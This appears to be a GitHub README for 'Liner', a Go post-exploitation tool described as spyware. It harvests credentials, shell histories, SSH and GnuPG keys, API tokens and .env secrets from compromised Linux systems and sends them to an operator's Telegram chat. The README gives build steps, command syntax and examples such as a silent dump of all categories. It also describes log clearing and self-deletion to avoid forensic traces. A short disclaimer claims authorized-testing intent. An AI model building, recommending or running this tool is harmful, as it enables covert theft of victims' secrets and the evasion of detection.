 ##  Liner - Post-Exploitation Data Exfiltration Tool via Telegram

**Liner** is a lightweight post-exploitation utility designed for rapid data collection and exfiltration from compromised Linux systems.  
It targets sensitive artifacts such as credentials, session tokens, private keys, and developer secrets, packaging and transferring them securely via Telegram bot API.

Built in Go, it supports silent operation, automated cleanup, and concurrent file transmission — making it ideal for stealthy, fast, and low-noise data exfiltration in red team operations or adversary simulation.

> ⚠️ **Disclaimer:** This tool is intended **strictly for educational and authorized security testing**. Unauthorized use is illegal and unethical.

---

### 🔧 Features

- Collects a wide range of sensitive files:
  - Stored credentials, shell histories, SSH keys, GnuPG data, API tokens, `.env` secrets, and more.
- Generates full directory tree structure for reconnaissance and documentation purposes.
- Compresses and optionally splits collected data for optimized transfer.
- Sends exfiltrated data directly to a specified Telegram chat using a bot token.
- Supports:
  - **Silent execution** (`--silent`) to suppress terminal output.
  - **Self-deletion** of the binary after successful execution to minimize footprint.
  - **Concurrent uploading** to accelerate data transmission under rate-limited environments.

---

### 📦 Requirements

Install required packages:

```bash
sudo apt install zip coreutils tree
```

Also required:

- A **Telegram bot token** ([@BotFather](https://t.me/BotFather))
- A **Telegram chat ID** (user or group)

---

### 🚀 Installation

```bash
git clone https://github.com/Nowafen/liner.git
cd liner
go build -v -o liner ./cmd

mv liner /usr/bin
chmod +x /usr/bin/liner

```

Verify installation:

```bash
liner --version
# Output: Liner version: x.x
```

---

### 🛠️ Usage

Basic syntax:

```bash
liner --mode Spyware --dump <TYPE> --token <TOKEN> --id <CHAT_ID> [options]
```

#### Required Flags

- `--mode Spyware` (only mode supported for now)
- `--dump`:  
  - `Credentials`: .git-credentials, keyrings  
  - `Password`: .bash_history, .zsh_history  
  - `Session`: .ssh, .gnupg  
  - `privateDATA`: *.env, *.pem, secrets  
  - `all`: Everything above
- `--token`: Your Telegram bot token
- `--id`: Telegram chat ID

#### Optional Flags

- `--silent`: Suppress all output
- `--version`: Show current version
- `--update`: Check for new version
- `--help`: Show help message

---

### 💡 Examples

```bash
sudo liner --mode Spyware --dump Password --token <BOT_TOKEN> --id <CHAT_ID>
```

```bash
sudo liner --mode Spyware --dump all --token <BOT_TOKEN> --id <CHAT_ID> --silent
```

---

### 🧠 How It Works

1. **Environment Validation:**  
   Ensures the target system is Linux-based before proceeding.

2. **Targeted Data Collection:**  
   Retrieves files based on the selected `--dump` category (e.g., credentials, sessions, secrets).

3. **Filesystem Mapping:**  
   Executes a recursive directory scan using `tree` to provide structural context.

4. **Data Packaging:**  
   Archives all collected data into `liner_data.zip`.  
   - If total size exceeds 48MB, archive is split into 25MB chunks for reliable transfer.

5. **Stealth Exfiltration via Telegram:**  
   Sends an initial message, directory map, and zipped payload to the configured Telegram chat using the bot API.

6. **Cleanup & Evasion:**  
   Removes temporary artifacts, clears relevant logs, and optionally self-deletes the binary to minimize forensic traces.

---

### ⚙️ Troubleshooting

- **Upload fails with `429 Too Many Requests` or times out?**  
  Telegram may be throttling API requests. Try reducing the upload concurrency in `core/telegram.go` or increase delay between sends.

- **No data received in chat?**  
  Ensure:
  - You are using a valid `--token` and `--id`
  - The specified `--dump` target contains data
  - Sufficient permissions (`sudo`) are granted

- **Split archive reassembly (receiver side):**

```bash
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

### 👨‍💻 Contributing

Pull requests and issues are welcome. Let’s improve this project together.


##### Developed by [MNM]
##### Uploaded: July 2025

